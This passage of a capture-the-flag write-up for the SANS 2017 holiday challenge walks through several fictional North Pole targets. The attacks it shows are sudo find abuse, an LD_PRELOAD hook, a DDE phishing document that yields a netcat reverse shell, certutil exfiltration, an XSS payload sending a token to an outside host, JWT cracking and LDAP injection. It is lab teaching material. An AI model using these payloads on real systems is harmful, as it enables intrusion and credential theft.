              /_/_/_/_/o\
             /@\_\_\@\_\_\
            /_/_/O/_/_/_/_\
           /_\_\_\_\_\o\_\_\
          /_/0/_/_/_0_/_/@/_\
         /_\_\_\_\_\_\_\_\_\_\
        /_/o/_/_/@/_/_/o/_/0/_\
       jgs       [___]
    My name is Shinny Upatree, and I've made a big mistake.
    I fear it's worse than the time I served everyone bad hake.
    I've deleted an important file, which suppressed my server access.
    I can offer you a gift, if you can fix my ill-fated redress.
    Restore /etc/shadow with the contents of /etc/shadow.bak, then run "inspect_da_box" to complete this challenge.
    Hint: What commands can you run with sudo?

We need to restore the content of :code:`/etc/shadow.bak` to :code:`/etc/shadow`.

The hint is a pretty big one. If you remember `last year's Christmas Challenge </posts/2017/01/05/sans-christmas-challenge-2016/#sans-christmas-challenge-2016>`__,
you remember that we can use :code:`sudo -l` to see what kind of command we
can execute:

.. code-block:: console

    elf@760499dcc4c9:~$ sudo -l
    Matching Defaults entries for elf on 760499dcc4c9:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    User elf may run the following commands on 760499dcc4c9:
        (elf : shadow) NOPASSWD: /usr/bin/find

We can execute :code:`find` as :code:`elf:shadow` (that is, as the user
:code:`elf`, member of the group :code:`shadow`, I didn't know this syntax).
Let's take a look at the permissions to our :code:`shadow` files:

.. code-block:: console

    elf@760499dcc4c9:~$ ls -lh /etc/shadow*
    -rw-rw---- 1 root shadow 677 Dec 23 23:59 /etc/shadow
    -rw------- 1 root root   652 Nov 14 13:48 /etc/shadow-
    -rw-r--r-- 1 root root   677 Dec 15 19:59 /etc/shadow.bak

We can see that the :code:`shadow` group has write access to :code:`/etc/shadow`.
So, we need a way, by running :code:`find`, to copy the content from
:code:`/etc/shadow.bak` to :code:`/etc/shadow`. Luckily, :code:`find` has the
:code:`-exec` parameter, which can be used to execute command on the found
files:

.. code-block:: console

    elf@760499dcc4c9:~$ sudo -g shadow /usr/bin/find /etc -name shadow.bak -exec cp {} /etc/shadow \; 2> /dev/null
    elf@760499dcc4c9:~$ inspect_da_box
                         ___
                        / __'.     .-"""-.
                  .-""-| |  '.'.  / .---. \
                 / .--. \ \___\ \/ /____| |
                / /    \ `-.-;-(`_)_____.-'._
               ; ;      `.-" "-:_,(o:==..`-. '.         .-"-,
               | |      /       \ /      `\ `. \       / .-. \
               \ \     |         Y    __...\  \ \     / /   \/
         /\     | |    | .--""--.| .-'      \  '.`---' /
         \ \   / /     |`        \'   _...--.;   '---'`
          \ '-' / jgs  /_..---.._ \ .'\\_     `.
           `--'`      .'    (_)  `'/   (_)     /
                      `._       _.'|         .'
                         ```````    '-...--'`
    /etc/shadow has been successfully restored!

Redirecting the snowball
........................

No new object for this one!

.. image:: /images/sans-christmas-challenge-2017/oh_wait_maybe_we_are_terminal.png
    :alt: oh_wait_maybe_we_are_terminal.png
    :align: center

Here's the layout:

.. image:: /images/sans-christmas-challenge-2017/oh_wait_maybe_we_are_snowball.gif
    :alt: oh_wait_maybe_we_are_snowball.gif
    :align: center

North Pole Christmas Town infrastructure: Elf-Machine Interface server
----------------------------------------------------------------------

The seventh question specifies that people use the Elf-Machine Interface server
to access email, and that we could get access to it via a phishing attack.

Let's take a look at Alabaster's emails. First, the phishing scenario:

    **From:** alabaster.snowball@northpolechristmastown.com

    **To:** "jessica.claus@northpolechristmastown.com"

    **Subject:** gingerbread cookie recipe

    Hey Mrs Claus,

    Do you have that awesome gingerbread cookie recipe you made for me last
    year? You sent it in a MS word .docx file. *I would totally open that
    docx on my computer if you had that. I would click on anything with the
    words gingerbread cookie recipe in it*. I'm totally addicted and want to
    make some more.

    Thanks,

    Alabaster Snowball


    **From:** alabaster.snowball@northpolechristmastown.com

    **To:** all@northpolechristmastown.com

    **Subject:** Re: COOKIES!

    Awesome, yea if anyone finds that .docx file containing the recipe for
    "gingerbread cookie recipe", please send it to me in a docx file. Im
    currently working on my computer and would *totally download that to my
    machine, open it, and click to all the prompts*.

    Thanks!

    Alabaster Snowball.

Oh, Alabaster, your gluttony will be your downfall. Now let's see how to
deliver our payload:

    **From:** minty.candycane@northpolechristmastown.com

    **To:** all@northpolechristmastown.com

    **Subject:** Should we be worried?

    Hey Alabaster,

    You know I'm a novice security enthusiast, well I saw an article a while
    ago about regarding DDE exploits that dont need macros for MS word to
    get command execution.

    https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/

    Should we be worried about this?

    I tried it on my local machine and was able to transfer a file. Here's a
    poc:

    http://mail.northpolechristmastown.com/attachments/dde_exmaple_minty_candycane.png

    I know your the resident computer engineer here so I wanted to defer to
    the expert.

    :)

    -Minty CandyCane.

    **From:** alabaster.snowball@northpolechristmastown.com

    **To:** all@northpolechristmastown.com

    **Subject:** Re: Should we be worried?

    Quit worrying Minty,

    You have nothing to worry about with me around! I have developed most of
    the applications in our network including our network defenses. We are
    are completely secure and impenetrable.

    Sincerely,

    Alabaster Snowball.

Oh, Alabaster, your hubris will **also** be your downfall. And finally, what
payload can we use:

    **From:** alabaster.snowball@northpolechristmastown.com

    **To:** all@northpolechristmastown.com

    **Subject:** Re: Lost book page

    Well powershell is my new love but netcat will always hold a special
    place in my heart.

    **From:** alabaster.snowball@northpolechristmastown.com

    **To:** all@northpolechristmastown.com

    **Subject:** Re: Lost book page

    I installed nc.exe to path for my computer.

Awesome, now we know that Alabaster has :code:`nc.exe` in his PATH. We can use
this tool to connect back to our Internet-facing machine, to get a shell access
to the Elf-Machine Interface server.

Let's prepare our malicious .docx file, using the Sensepost tutorial:

.. image:: /images/sans-christmas-challenge-2017/ewa_malicious_docx.png
    :alt: ewa_malicious_docx.png
    :align: center

Now, let's send our gingerbread cookie recipe to our dear Alabaster, from Mrs
Claus's account. We can do this by putting her email address in our cookie, as
explained in the EWA section:

.. image:: /images/sans-christmas-challenge-2017/ewa_phishing_email.png
    :alt: ewa_phishing_email.png
    :align: center

And now, we wait for a shell:

.. code-block:: console

    $ nc -knlvp 8080
    listening on [any] 8080 ...
    connect to [X.X.X.X] from (UNKNOWN) [35.185.57.190] 52783
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.
    
    C:\Users\alabaster_snowball\Documents>

Sweet! We have a shell access to the EMI machine. Now, the only thing to do is
to get the :code:`C:\GreatBookPage7.pdf` file. But how to exfiltrate?
Exfiltrating data from a Windows machine can be a pain, since there's no
useful tools like :code:`scp`, :code:`curl`, etc. (yet) to send data to the
outside.  One of my favourite tricks is to use the :code:`certutil.exe` command
tool.  This tool is used to manipulate certificates, etc., but `it can be used
to base64-encode and -decode data <https://twitter.com/subtee/status/920425668084510721>`__.

So, what we'll do is simply base64 encode the page to a file. Then we'll output
the content of the file, copy/paste it to our machine, and base64-decode it:

.. code-block:: console

    C:\Users\alabaster_snowball\Documents> certutil.exe -f -encode C:\GreatBookPage7.pdf C:\Users\alabaster_snowball\Documents\GreatBookPage7.pdf.b64
    Input Length = 1053508
    Output Length = 1448634
    CertUtil: -encode command completed successfully.

    C:\Users\alabaster_snowball\Documents> type .\GreatBookPage7.pdf.b64
    -----BEGIN CERTIFICATE-----
    JVBERi0xLjMKJcTl8uXrp/Og0MTGCjUgMCBvYmoKPDwgL0xlbmd0aCA2IDAgUiAv
    [snip]
    RU9GCg==
    -----END CERTIFICATE-----

Then, on my machine (you must remove the :code:`BEGIN CERTIFICATE` and
:code:`END CERTIFICATE` from the output):

.. code-block:: console

    $ base64 -d .\GreatBookPage7.pdf.b64 > GreatBookPage7.pdf

Which gives us the `seventh page of The Great Book </docs/sans-christmas-challenge-2017/GreatBookPage7.pdf>`__
(sha256: :code:`bc93c535481abb76e3c5180406ea9ea0910acd53f76cab788f1d680d21b611b5`):

    Regarding the Witches of Oz
    
    Of all the varied and amazing people who inhabit the Land of Oz, the
    witches are among the most powerful, wielding potent magic and mesmerizing
    spells. They travel through the air, propelled by bubbles or broomsticks.
    Each witch has a very different attitude and outlook, ranging from faithful
    friends who are dear to us all way down to hearts full of unwashed socks
    and souls full of gunk.

    During the Great Schism, the witches very deliberately remained neutral,
    siding with neither the Munchkins nor the Elves. The witches seem to live
    exclusively in Oz, tending to their castles. As of this writing, the
    witches have never been observed in the North Pole.

Who is behind all this?
~~~~~~~~~~~~~~~~~~~~~~~
North Pole and Beyond: We're Off To See The...
----------------------------------------------
Cranberry Pi
............

::

                     .--._.--.--.__.--.--.__.--.--.__.--.--._.--.
                   _(_      _Y_      _Y_      _Y_      _Y_      _)_
                  [___]    [___]    [___]    [___]    [___]    [___]
                  /:' \    /:' \    /:' \    /:' \    /:' \    /:' \
                 |::   |  |::   |  |::   |  |::   |  |::   |  |::   |
                 \::.  /  \::.  /  \::.  /  \::.  /  \::.  /  \::.  /
             jgs  \::./    \::./    \::./    \::./    \::./    \::./
                   '='      '='      '='      '='      '='      '='
    Wunorse Openslae has a special challenge for you.
    Run the given binary, make it return 42.
    Use the partial source for hints, it is just a clue.
    You will need to write your own code, but only a line or two.

Alright, we have a program, and we need to make it return 42:

.. code-block:: console

    elf@ed587b205bb6:~$ ls -lh
    total 100K
    -rwxr-xr-x 1 root root  83K Dec 16 16:56 isit42
    -rw-r--r-- 1 root root  654 Dec 16 16:56 isit42.c.un
    elf@ed587b205bb6:~$ ./isit42
    Starting up ... done.
    Calling rand() to select a random number.
    170 is not 42.

Ok, the program seems to generate a random number, using :code:`rand()`, and
compare the result to 42. If the random number is not equal to 42, the program
outputs an error. So, how can we force :code:`rand` to return 42?

The common trick is to use :code:`LD_PRELOAD`. If this shell variable holds
the path to a shared library, this library will be loaded before any other
library, include :code:`libc`. The idea is to create our own library, with
our own version of :code:`rand` that, for example, always return 42. Luckily
for us, a `SANS blog post <https://pen-testing.sans.org/blog/2017/12/06/go-to-the-head-of-the-class-ld-preload-for-the-win>`__
was recently posted on the subject.

The blog post focuses on the :code:`usleep` instead of :code:`rand`, but the
principle is the same. So, let's create our own :code:`rand` library!

.. code-block:: console

    elf@ed587b205bb6:~$ cat <<EOF > hijack_rand.c
    > int rand()
    > {
    >     return 42;
    > }
    >
    > EOF
    elf@ed587b205bb6:~$ cat hijack_rand.c
    int rand()
    {
        return 42;
    }
    elf@ed587b205bb6:~$ gcc -o hijack_rand.so -shared -fPIC ./hijack_rand.c
    elf@ed587b205bb6:~$ LD_PRELOAD="./hijack_rand.so" ./isit42
    Starting up ... done.
    Calling rand() to select a random number.
                     .-.
                    .;;\ ||           _______  __   __  _______    _______  __    _  _______  _     _  _______  ______
                   /::::\|/          |       ||  | |  ||       |  |   _   ||  |  | ||       || | _ | ||       ||    _ |
                  /::::'();          |_     _||  |_|  ||    ___|  |  |_|  ||   |_| ||  _____|| || || ||    ___||   | ||
                |\/`\:_/`\/|           |   |  |       ||   |___   |       ||       || |_____ |       ||   |___ |   |_||_
            ,__ |0_..().._0| __,       |   |  |       ||    ___|  |       ||  _    ||_____  ||       ||    ___||    __  |
             \,`////""""\\\\`,/        |   |  |   _   ||   |___   |   _   || | |   | _____| ||   _   ||   |___ |   |  | |
             | )//_ o  o _\\( |        |___|  |__| |__||_______|  |__| |__||_|  |__||_______||__| |__||_______||___|  |_|
              \/|(_) () (_)|\/
                \   '()'   /            ______    _______  _______  ___      ___      __   __    ___   _______
                _:.______.;_           |    _ |  |       ||   _   ||   |    |   |    |  | |  |  |   | |       |
              /| | /`\/`\ | |\         |   | ||  |    ___||  |_|  ||   |    |   |    |  |_|  |  |   | |  _____|
             / | | \_/\_/ | | \        |   |_||_ |   |___ |       ||   |    |   |    |       |  |   | | |_____
            /  |o`""""""""`o|  \       |    __  ||    ___||       ||   |___ |   |___ |_     _|  |   | |_____  |
           `.__/     ()     \__.'      |   |  | ||   |___ |   _   ||       ||       |  |   |    |   |  _____| |
           |  | ___      ___ |  |      |___|  |_||_______||__| |__||_______||_______|  |___|    |___| |_______|
           /  \|---|    |---|/  \
           |  (|42 | () | DA|)  |       _   ___  _______
           \  /;---'    '---;\  /      | | |   ||       |
            `` \ ___ /\ ___ / ``       | |_|   ||____   |
                `|  |  |  |`           |       | ____|  |
          jgs    |  |  |  |            |___    || ______| ___
           _._  |\|\/||\/|/|  _._          |   || |_____ |   |
          / .-\ |~~~~||~~~~| /-. \         |___||_______||___|
          | \__.'    ||    '.__/ |
           `---------''---------`
    Congratulations! You've won, and have successfully completed this challenge.

Redirecting the snowball
........................

Here's the layout I used to solve this level (I know, I got suuuper lazy, but
God bless this portal):

.. image:: /images/sans-christmas-challenge-2017/we_re_off_to_see_the_snowball.gif
    :alt: we_re_off_to_see_the_snowball.gif
    :align: center

Having completed this level, we have a little chat with a certain someone:

    **Glinda the Good Witch:** It's me, Glinda the Good Witch of Oz! You found
    me and ruined my genius plan!
    
    You see, I cast a magic spell on the Abominable Snow Monster to make him
    throw all the snowballs at the North Pole. Why? Because I knew a giant
    snowball fight would stir up hostilities between the Elves and the
    Munchkins, resulting in all-out WAR between Oz and the North Pole. I was
    going to sell my magic and spells to both sides. War profiteering would
    mean GREAT business for me.
    
    But, alas, you and your sleuthing foiled my venture. And I would have
    gotten away with it too, if it weren't for you meddling kids!

My, oh my, what a nasty plan!

North Pole Christmas Town infrastructure: Elf Database
------------------------------------------------------

On to the last application, the Elf Database. Given the name, we can expect the
application to be some sort of web interface allowing us to have access to the
list of North Pole's elves.

Once again, if we try to connect using Alabaster's account, we get an
:code:`Incorrect username or password!` error.

.. image:: /images/sans-christmas-challenge-2017/edb_login_fail.png
    :alt: edb_login_fail.png
    :align: center

So, let's see what we can find from basic recon. Once again, we get some
information by taking a look at the :code:`robots.txt` file:

.. code-block:: http

    GET /robots.txt HTTP/1.1
    Host: edb.northpolechristmastown.com
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Cookie: SESSION=5A0K85HFazf2m0ltjg3g
    Connection: close

.. code-block:: http

    HTTP/1.1 200 OK
    Server: nginx/1.10.3
    Date: Sun, 07 Jan 2018 23:02:46 GMT
    Content-Type: text/plain; charset=utf-8
    Connection: close
    Last-Modified: Tue, 15 Aug 2017 04:58:06 GMT
    
    User-agent: *
    Disallow: /dev

So, there is a :code:`/dev` directory. If we browse to it, we find only one
file, :code:`LDIF_template.txt`:

.. code-block:: http

    GET /dev/LDIF_template.txt HTTP/1.1
    Host: edb.northpolechristmastown.com
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36
    Cookie: SESSION=5A0K85HFazf2m0ltjg3g
    Connection: close

.. code-block:: http
    :hl_lines: 52

    HTTP/1.1 200 OK
    Server: nginx/1.10.3
    Date: Sun, 07 Jan 2018 23:04:47 GMT
    Content-Type: text/plain; charset=utf-8
    Content-Length: 751
    Connection: close
    Accept-Ranges: bytes
    
    #LDAP LDIF TEMPLATE
    
    dn: dc=com
    dc: com
    objectClass: dcObject
    
    dn: dc=northpolechristmastown,dc=com
    dc: northpolechristmastown
    objectClass: dcObject
    objectClass: organization
    
    dn: ou=human,dc=northpolechristmastown,dc=com
    objectClass: organizationalUnit
    ou: human
    
    dn: ou=elf,dc=northpolechristmastown,dc=com
    objectClass: organizationalUnit
    ou: elf
    
    dn: ou=reindeer,dc=northpolechristmastown,dc=com
    objectClass: organizationalUnit
    ou: reindeer
    
    dn: cn= ,ou= ,dc=northpolechristmastown,dc=com
    objectClass: addressbookPerson
    cn: 
    sn: 
    gn: 
    profilePath: /path/to/users/profile/image
    uid: 
    ou: 
    department: 
    mail: 
    telephoneNumber: 
    street:
    postOfficeBox: 
    postalCode: 
    postalAddress: 
    st: 
    l: 
    c: 
    facsimileTelephoneNumber: 
    description: 
    userPassword: 

This gives us some info about how the Elf Database application functions.
There's obviously an LDAP backend. We also have the list of attributes for the
object representing the users, including one which seems particularly juicy,
:code:`userPassword`.

Learning that the application uses an LDAP backend, I tried to bypass
authentication using LDAP injection, but it did not work. So, let's take a look
at the source code of the application. Here's what we can find on the
:code:`index.html` page:

.. code-block:: html
    :hl_lines: 5 7

        <script>
            if (!document.cookie) {
                window.location.href = '/';
            } else {
                token = localStorage.getItem("np-auth");
                if (token) {
                    $.post( "/login", { auth_token: token }).done(function( result ) {
                        if (result.bool) {
                            window.location.href = result.link;
                        }
                    })
                }
            }
        </script>
    </html>

Hmm, a token stored in the local storage, under the key :code:`np-auth` seems
to be used for the application session management. Let's keep digging.

Under the login form, there's a support link, where you can send a password
reset request to an administrator. Since we have access to Alabaster's email
account, let's try and reset his password:

.. code-block:: http

    POST /service HTTP/1.1
    Host: edb.northpolechristmastown.com
    Origin: http://edb.northpolechristmastown.com
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36
    Cookie: SESSION=6S6Nd58Sy85OK09ui063
    Connection: close
    
    uid=alabaster.snowball&email=alabaster.snowball%40northpolechristmastown.com&message=I+forgot+my+password!

.. code-block:: http

    HTTP/1.1 200 OK
    Server: nginx/1.10.3
    Date: Sun, 07 Jan 2018 23:20:45 GMT
    Content-Type: application/json
    Content-Length: 115
    Connection: close
    
    {"bool":true,"link":"/reset_request?ticket=OYHAT-T8XZR-EC2YB-U0173","message":"Request Submitted. Redirecting..."}

Now that our password reset request was sent, let's check Alabaster's email!
Hmm, nothing. Let's see what happened after our request was sent. We get
redirected to a support ticket page:

.. image:: /images/sans-christmas-challenge-2017/edb_request_normal.png
    :alt: edb_request_normal.png
    :align: center

And our message is embedded in the page. Is it possible that they forgot to
sanitize our user input? Let's try to inject some special characters:

.. code-block:: http

    POST /service HTTP/1.1
    Host: edb.northpolechristmastown.com
    Origin: http://edb.northpolechristmastown.com
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36
    Referer: http://edb.northpolechristmastown.com/index.html
    Cookie: SESSION=53LByIBB8Ct5Z79RdsTC
    
    uid=alabaster.snowball&email=alabaster.snowball%40northpolechristmastown.com&message=<u>Pretty+underlined+message</u>

Now, if we take a look at our ticket page, we can see that the :code:`<u>` tag
was rendered, and my message appears underlined:

.. image:: /images/sans-christmas-challenge-2017/edb_request_underlined.png
    :alt: edb_request_underlined.png
    :align: center

.. code-block:: html
    :hl_lines: 6

    <tr>
        <td>Alabaster</td> 
        <td>Snowball</td>
        <td>alabaster.snowball@northpolechristmastown.com</td>
        <td>123-456-7890</td>
        <td><u>Pretty underlined message</u></td>
    </tr>
    </tbody>

This means that we can try to perform an XSS attack against the administrator
that will visualize our request! I usually use tags like :code:`<u>` or
:code:`<b>` when testing for XSS, because they're usually not picked up by
WAFs or by custom implemented filters. And indeed, if we take a look at the
:code:`custom.js` file, we can see that there's some filtering done on the
client side to trigger on text like :code:`script`.

.. code-block:: js
    :hl_lines: 10

    // --------------------------Customer Service Request -----------------------------/
    $('#help_button').click(function(e){
        e.preventDefault();
        var help_uid = $('#help_uid').val();
        var help_email = $('#help_email').val();
        var help_message = $('#help_message').val();
        if (help_uid.match(/^\w+\.\w+$/g) != null){
            if (help_email.match(/^[\w\_\-\.]+\@[\w\_\-\.]+\.\w\w\w?\w?$/g) !== null){
                if (help_message.match(/^.+$/g) != null) {
                    if (help_message.match(/[sS][cC][rR][iI][pP][tT]/g) == null) {

Now, client-side verifications can be bypassed easily by performing the HTTP
request directly. But in that case, the check (among others) was also performed
on the server-side.

So, let's use another type of XSS payload, that does not involve the word
:code:`script`. One of the most common is to use the :code:`onerror` attribute.
Let's try and see:

.. code-block:: http

    POST /service HTTP/1.1
    Host: edb.northpolechristmastown.com
    Origin: http://edb.northpolechristmastown.com
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36
    Referer: http://edb.northpolechristmastown.com/index.html
    Cookie: SESSION=53LByIBB8Ct5Z79RdsTC
    
    uid=alabaster.snowball&email=alabaster.snowball%40northpolechristmastown.com&message=<img src=x onerror="alert('Huh oh, Spaghettios')" />

.. image:: /images/sans-christmas-challenge-2017/edb_request_xss.png
    :alt: edb_request_xss.png
    :align: center

Bingo, it works! Now, let's create a payload that will capture the
:code:`np-auth` entry from the local storage. The application uses jQuery,
which means that we can use :code:`$.get` to easily exfiltrate our token to our
public-facing website:

.. code-block:: http

    POST /service HTTP/1.1
    Host: edb.northpolechristmastown.com
    Origin: http://edb.northpolechristmastown.com
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36
    Referer: http://edb.northpolechristmastown.com/index.html
    Cookie: SESSION=53LByIBB8Ct5Z79RdsTC
    
    uid=alabaster.snowball&email=alabaster.snowball%40northpolechristmastown.com&message=<img src=x onerror="$.get(%26quot;http://X.X.X.X/?%26quot;%2blocalStorage.getItem(%26quot;np-auth%26quot;),function(a,b){})" />

And in a :code:`nc` on our server, we wait for our payload to get triggered:

.. code-block:: console
    :hl_lines: 4

    # nc -nvk -l -p 80
    listening on [any] 80 ...
    connect to [X.X.X.X] from (UNKNOWN) [Y.Y.Y.Y] 50132
    GET /?eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkZXB0IjoiRW5naW5lZXJpbmciLCJvdSI6ImVsZiIsImV4cGlyZXMiOiIyMDE3LTA4LTE2IDEyOjAwOjQ3LjI0ODA5MyswMDowMCIsInVpZCI6ImFsYWJhc3Rlci5zbm93YmFsbCJ9.M7Z4I3CtrWt4SGwfg7mi6V9_4raZE5ehVkI9h04kr6I HTTP/1.0
    Host: X.X.X.X
    Connection: close
    Accept: */*
    Referer: http://127.0.0.1/reset_request?ticket=DFYCN-8UI5I-AD87J-BRR9P
    Origin: http://127.0.0.1
    User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,*

Hurray, we got our token! Let's put it in our local storage, then head to the
:code:`index.html` page, and... nothing. Well that's disappointing. Let's take
a look at our token. It seems to be three base64-encoded pieces of data,
separated by full stops. This seems to indicate that this is a `JSON Web Token
(JWT) <https://auth0.com/learn/json-web-tokens/>`__. The first part is the
header, :code:`{"alg":"HS256","typ":"JWT"}`, the second part is the payload,
:code:`{"dept":"Engineering","ou":"elf","expires":"2017-08-16 12:00:47.248093+00:00","uid":"alabaster.snowball"}`,
and the third part is the signature.

Our newfound token didn't work because it seems that it expired in August 2017.
We could modify the expiry date to put it in the future, but we can't compute
a new signature for our modified payload, because we don't know what secret
key is used. I tried using the trick of the :code:`none` algorithm (`described
here <https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/>`__),
which has worked for coworkers of mine in the past. But it didn't work in that
case.

What's left to us is to try and bruteforce the secret key, so that we can
create our own JWT. :code:`JohnTheRipper` can actually bruteforce it for us,
since it can bruteforce HMAC-256 secret keys. We just have to `make some
changes to our token <https://security.stackexchange.com/a/134829>`__:

.. code-block:: console
    :hl_lines: 8

    $ cat alabaster_jwt.txt 
    eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkZXB0IjoiRW5naW5lZXJpbmciLCJvdSI6ImVsZiIsImV4cGlyZXMiOiIyMDE3LTA4LTE2IDEyOjAwOjQ3LjI0ODA5MyswMDowMCIsInVpZCI6ImFsYWJhc3Rlci5zbm93YmFsbCJ9#33b6782370adad6b78486c1f83b9a2e95f7fe2b6991397a156423d874e24afa2
    $ john ./alabaster_jwt.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    3lv3s            (?)
    1g 0:00:02:28 DONE 3/3 (2018-01-08 00:59) 0.006742g/s 2154Kp/s 2154Kc/s 2154KC/s 3k3ys..au10.
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed

Wow, it worked. I must confess that it was kind of my last hope, and I wasn't
sure it was going to work. But hey, we now have our secret key, :code:`3lv3s`,
and we can now generate valid JWT for Alabaster. I used https://jwt.io/ to do
so, and obtain the following token:

    eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkZXB0IjoiRW5naW5lZXJpbmciLCJvdSI6ImVsZiIsImV4cGlyZXMiOiIyMDE4LTAxLTE2IDEyOjAwOjQ3LjI0ODA5MyswMDowMCIsInVpZCI6ImFsYWJhc3Rlci5zbm93YmFsbCJ9.OsSuRkYF-13eNfXyuCDYmb9XUjBhnbmQ9Oe1yRWDrH0

We can now log into the application:

.. image:: /images/sans-christmas-challenge-2017/edb_santa_panel.png
    :alt: edb_santa_panel.png
    :align: center

There's a Santa panel, but we're not identified as Santa, so we can't access
it. We could try to forge a JWT for Santa, but we can see in the source code
of the application, that we actually need his password:

.. code-block:: js
    :hl_lines: 4

    $('#santa_panel').click(function(e){
        e.preventDefault();
        if (user_json['dept'] == 'administrators') {
            pass = prompt('Confirm you are a Claus by confirming your password: ').trim()
            if (pass) {
                poster("/html", { santa_access: pass }, token, function(result){
                    if (result) {
                        $('#inneroverlay').html(result);
                        $('.overlay').css('display','flex');
                    } else {
                        Materialize.toast('Incorrect Password...', 4000);
                    }
                });    
            }
        } else {
            Materialize.toast('You must be a Claus to access this panel!', 4000);
        }
    });

So, we need to find a way to get his password. Let's take a look at the
application. Apparently, we can query the application's database for elves or
reindeers matching certain names, and get some properties:

.. code-block:: http

    POST /search HTTP/1.1
    Host: edb.northpolechristmastown.com
    np-auth: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkZXB0IjoiRW5naW5lZXJpbmciLCJvdSI6ImVsZiIsImV4cGlyZXMiOiIyMDE4LTAxLTE2IDEyOjAwOjQ3LjI0ODA5MyswMDowMCIsInVpZCI6ImFsYWJhc3Rlci5zbm93YmFsbCJ9.OsSuRkYF-13eNfXyuCDYmb9XUjBhnbmQ9Oe1yRWDrH0
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36
    Referer: http://edb.northpolechristmastown.com/home.html
    Cookie: SESSION=4wtVec24212atYU1RpE3
    Connection: close
    
    name=alabaster&isElf=True&attributes=profilePath,gn,sn,mail

.. code-block:: http

    HTTP/1.1 200 OK
    Server: nginx/1.10.3
    Date: Mon, 08 Jan 2018 00:08:50 GMT
    Connection: close
    
    
    [[["cn=alabaster,ou=elf,dc=northpolechristmastown,dc=com",{"gn":["Alabaster"],"mail":["alabaster.snowball@northpolechristmastown.com"],"profilePath":["/img/elves/elf1.PNG"],"sn":["Snowball"]}]]]

Given the result's format, we can expect the application to performan LDAP
query to retrieve the wanted attributes. If only we knew the syntax of this
query... But, wait! Let's see what we have in the application source code:

.. code-block:: js
    :hl_lines: 8

    //Note: remember to remove comments about backend query before going into north pole production network
    /*
    
    isElf = 'elf'
    if request.form['isElf'] != 'True':
        isElf = 'reindeer'
    attribute_list = [x.encode('UTF8') for x in request.form['attributes'].split(',')]
    result = ldap_query('(|(&(gn=*'+request.form['name']+'*)(ou='+isElf+'))(&(sn=*'+request.form['name']+'*)(ou='+isElf+')))', attribute_list)
    
    #request.form is the dictionary containing post params sent by client-side
    #We only want to allow query elf/reindeer data
    
    */

We have the syntax of the query. And there doesn't seem to be any filtering
on our parameters, so we can try to perform an `LDAP injection <https://pen-testing.sans.org/blog/2017/11/27/understanding-and-exploiting-web-based-ldap>`__.
I recommend you read this link, to better understand how the LDAP syntax works.

Now, we want to perform our injection in the :code:`name` parameter. The goal
is to get a query that will match Santa's user entry. I ended up going with
the following payload: :code:`santa*)(ou=*))(&(sn=foo`. Indeed, the final
syntax is then:

.. code-block:: ldap

    (|(&(gn=*santa*)(ou=*))(&(sn=foo*)(ou=elf))(&(sn=*santa*)(ou=*))(&(sn=foo*)(ou=elf)))

This query should match Santa, since we're searching for entries with names
containing :code:`santa` in any organizational unit. Now, let's perform our
search. Since we're allowed to query any attributes we want, let's ask for the
:code:`userPassword` attribute, found in the earlier
:code:`LDIF_template.txt` file:

.. code-block:: http
    :hl_lines: 10
    
    POST /search HTTP/1.1
    Host: edb.northpolechristmastown.com
    Accept: */*
    Origin: http://edb.northpolechristmastown.com
    np-auth: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkZXB0IjoiRW5naW5lZXJpbmciLCJvdSI6ImVsZiIsImV4cGlyZXMiOiIyMDE4LTAxLTE2IDEyOjAwOjQ3LjI0ODA5MyswMDowMCIsInVpZCI6ImFsYWJhc3Rlci5zbm93YmFsbCJ9.OsSuRkYF-13eNfXyuCDYmb9XUjBhnbmQ9Oe1yRWDrH0
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    Referer: http://edb.northpolechristmastown.com/home.html
    Cookie: SESSION=4F359T9wWTvpBczV3335
    
    name=santa*)(ou=*))(%26(sn=foo&isElf=True&attributes=userPassword

.. code-block:: http
    :hl_lines: 8
    
    HTTP/1.1 200 OK
    Server: nginx/1.10.3
    Date: Mon, 08 Jan 2018 00:16:42 GMT
    Content-Type: application/json
    Content-Length: 113
    Connection: close
    
